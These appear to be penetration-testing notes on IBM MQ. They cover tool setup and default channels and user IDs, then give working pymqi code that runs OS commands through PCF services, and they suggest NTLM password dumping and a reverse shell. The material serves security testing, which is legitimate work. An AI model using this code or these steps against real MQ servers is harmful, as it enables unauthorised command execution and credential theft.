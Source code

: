 # Practical IBM MQ Penetration Testing notes

In order to interact with IBM MQ in any way, we need to install IBM MQ Client libraries, available only on IBM website. Account registration will be required to get hands on them.

### Step 1: Installing prerequisities

**Pre-requisites: IBM MQ Client**

1. Download the [IBM MQ V9.0.0.4 LTS Clients](http://ibm.biz/mq9004clients) - the file should be named: `9.0.0.4-IBM-MQC-LinuxX64.tar.gz` (_9.0.0.4 Client install image for IBM MQ on Linux X86-64_) - size: 397MB
2. Extract it to whatever directory.
3. Install debian/Kali/Ubuntu pre-requisities `apt install -y python-dev rpm`
4. Accept the license: `sudo ./mqlicense.sh -accept` or `sudo ./mqlicense.sh -text_only`
5. Do the following:

```
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesRuntime-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesClient-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesSDK-9.0.0-4.x86_64.rpm
```

### **Step 2: Pymqi & punch-q**

Having properly installed all of the MQ Client dependencies, we can now proceed to installing `pymqi` and `punch-q`:

1. Clone the punch-q repo: `git clone https://github.com/sensepost/punch-q`
2. Install them:
```
# pip install pymqi
# pip install -r requirements.txt
# python setup.py install
```

3. Before using `punch-q` specify MQ libraries path:

Either globally:
```
# sudo echo /opt/mqm/lib64 > /etc/ld.so.conf.d/mqm.x86_64.conf
# sudo ldconfig -v
```

or temporarily:
```
# export LD_LIBRARY_PATH=/opt/mqm/lib64
```

**One stop shop script installing IBM MQ Client libraries**

Assuming we have `9.0.0.4-IBM-MQC-LinuxX64.tar.gz` file in our current directory, following script applies on Kali x64 linux:
```
apt install -y python-dev rpm pcregrep
tar -xvzf 9.0.0.4-IBM-MQC-LinuxX64.tar.gz
pcregrep -vM '(?:echo "\s+This package was built for \$\{BUILD_PLATFORM\}")\n\s*exit 1' mqlicense.sh > /tmp/mqlicense.sh
cat /tmp/mqlicense.sh > mqlicense.sh
rm /tmp/mqlicense.sh
yes | sudo ./mqlicense.sh -accept
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesRuntime-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesClient-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesSDK-9.0.0-4.x86_64.rpm
pip install pymqi
echo /opt/mqm/lib64 > /etc/ld.so.conf.d/mqm.x86_64.conf
sudo ldconfig -v
ls | grep -v 9.0.0.4-IBM-MQC-LinuxX64.tar.gz | xargs rm -rf
git clone https://github.com/sensepost/punch-q
cd punch-q
pip install -r requirements.txt
python setup.py install
```

## Step 2: Handy notes on where to focus

**Internally:**

Having found several running processes with names such as:
`amqsvc.exe`, `amqxssvn.exe`, `amqrrmfa.exe`, `amqmtbrn.exe` 

These processes will be running impersonated as highly privileged service user name (according to the usernames table available below, at 2) . These users will act as local SAM users, which means we might be able to dump their NTLM passwords and crack them or even change them to whatever value we wish to facilitate successful IBM MQ server authentication.

**Externally:**

By using `punch-mq` we can:
1) Discover/Brute-Force available CHANNELS, 
2) Enumerate usernames (valid UserId fields)
3) Enumerate Queue Manager names
4) List available Channels or Queues as an authenticated user.
5) PUT, GET, Dump, Save, Sniff messages given an existent QUEUE name, as an authenticated user
6) Issue OS Commands by the use of `PCFExecute` functionality

In order to successfully authenticate to the IBM MQ server, we will need to have upfront following informatio prepared:
- Hostname/IP address
- TCP Port, typically `1414/tcp`
- Queue Manager name - easily obtained by the use of nmap scripts: `nmap -p 1414 -sV <host>` 
- Channel name (can be one of the below listed), at first start with: `SYSTEM.ADMIN.SVRCONN`
- Username (list of default system usernames below)
- Password

Incorrect access credentials will result in `pymqi` returning following response:
```
pymqi.MQMIError: MQI Error. Comp: 2, Reason 2035: FAILED: MQRC_NOT_AUTHORIZED
```

### 1) Default channel names:

_(in order to view system objects - click "Show System Objects" on upper right side of the MQ Explorer interface)_

```
SYSTEM.ADMIN.SVRCONN
SYSTEM.AUTO.SVRCONN
SYSTEM.DEF.SVRCONN
SYSTEM.DEF.SERVER
SYSTEM.DEF.CLNTCONN
```

### 2) Default Userid's depending on target OS version:

| OS Version     | UserId       |
|----------------|--------------|
| Linux/Unix/AIX | mqm          |
| Windows        | MUSR_MQADMIN |
| Other          | mqadmin      |

### 5) Important Administration QUEUE names:

```
SYSTEM.ADMIN.COMMAND.QUEUE
SYSTEM.DEFAULT.MODEL.QUEUE
SYSTEM.AUTH.DATA.QUEUE
```

### 6) Remote Code Execution

**6.1. Programmable Command Format (PCF) Services**

Being authenticated to the Queue Manager and a corresponding channel, we might be able to execute PCF (_Programmable Command Format_) commands (on MQ v6+) that would give us OS command execution by the use a concept called _services_:
- `MQCMD_CREATE_SERVICE`, 
- `MQCMD_START_SERVICE`, 
- `MQCMD_STOP_SERVICE`, 
- `MQCMD_DELETE_SERVICE`

That holds true as long as our impersonated user has sufficient permissions within OAM (Object Authority Manager) to perform requested PCF operation on the relevant objects.

Using `pymqi` or `punch-mq` this is as simple as invoking following code (source: [punch-mq](https://github.com/sensepost/punch-q/blob/master/libpunchq/cli.py) ):
```
    # create service
    qmgr = pymqi.connect(mqstate.qm_name, mqstate.channel, mqstate.get_host(),
                         mqstate.username, mqstate.password)
                         
    args = {
        pymqi.CMQC.MQCA_SERVICE_NAME: service_name,
        pymqi.CMQC.MQIA_SERVICE_CONTROL: pymqi.CMQC.MQSVC_CONTROL_MANUAL,
        pymqi.CMQC.MQIA_SERVICE_TYPE: pymqi.CMQC.MQSVC_TYPE_COMMAND,
        pymqi.CMQC.MQCA_SERVICE_START_COMMAND: str(cmd),
        pymqi.CMQC.MQCA_SERVICE_START_ARGS: str(args)
    }
    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_CREATE_SERVICE(args)

    # start the service
    args = {pymqi.CMQC.MQCA_SERVICE_NAME: service_name}

    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_START_SERVICE(args)

    # Giving the service some time to live
    time.sleep(wait)

    # delete service
    args = {pymqi.CMQC.MQCA_SERVICE_NAME: service_name}

    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_DELETE_SERVICE(args)

    qmgr.disconnect()
```

Incomming command will then be executed most likely as a root user. `punch-mq` does not implement any way of getting command's result back so we will have to go blindly here, preferably just using reverse-shell oneliner. 

If we wish to have our commands' results back, then more code will need to be added facilitating specification of output Queue where PCF should PUT it's results, then manual Queue read by the use of GET operation to retrieve OS command's outcome. Such a Queue could be created based on `SYSTEM.DEFAULT.MODEL.QUEUE` template. Martyn Ruks goes in details on that in his paper (ref: 1, page 24).

**6.2. Use of Triggers**

Martyn Ruks described (ref: 1, page 30) that we may also succeed invoking system commands by defining event triggers that would execute specified command as soon as preconfigured event fired up our malicious trigger.


## Additional sources

1. [Martyn Ruks: WebSphere MQ Security. White Paper – Part 1](https://labs.f-secure.com/assets/141/original/mwri_websphere-mq-security-white-paper-part1_2008-05-06.pdf)
2. [Martyn Ruks: MQ Jumping](https://www.defcon.org/images/defcon-15/dc15-presentations/dc-15-ruks.pdf)
3. [punch-q](https://github.com/sensepost/punch-q)
4. [pymqi installation issue](https://github.com/dsuch/pymqi/issues/15#issuecomment-124772995)
5. [mini-reverse.ps1 script designed by @staaldraad](https://gist.github.com/mgeeky/fc11c9f227755a529eb607ed4d1742f9)



## Additional sources

1. [Martyn Ruks: WebSphere MQ Security. White Paper – Part 1](https://labs.f-secure.com/assets/141/original/mwri_websphere-mq-security-white-paper-part1_2008-05-06.pdf)
2. [Martyn Ruks: MQ Jumping](https://www.defcon.org/images/defcon-15/dc15-presentations/dc-15-ruks.pdf)
3. [punch-q](https://github.com/sensepost/punch-q)
4. [pymqi installation issue](https://github.com/dsuch/pymqi/issues/15#issuecomment-124772995)
